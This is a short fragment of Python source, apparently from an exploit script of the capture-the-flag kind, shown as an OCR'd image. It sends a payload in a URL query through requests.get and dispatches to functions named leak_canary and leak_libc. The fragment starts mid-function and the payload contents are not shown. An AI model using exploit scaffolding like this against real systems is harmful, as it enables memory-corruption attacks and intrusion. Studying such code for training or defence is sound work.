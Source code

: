 ```python
    exp_url = url + '?' + payload_key + '=' + payload_value 
    r = requests.get(exp_url) 
 
if __name__ == '__main__': 
    op = '' 
    if len(sys.argv) >= 2: 
        op = sys.argv[1] 
 
    if op == 'reg': 
        register() 
    elif op == 'canary': 
        leak_canary() 
    elif op == 'libc': 
        leak_libc() 
    else: 
        main() 
```

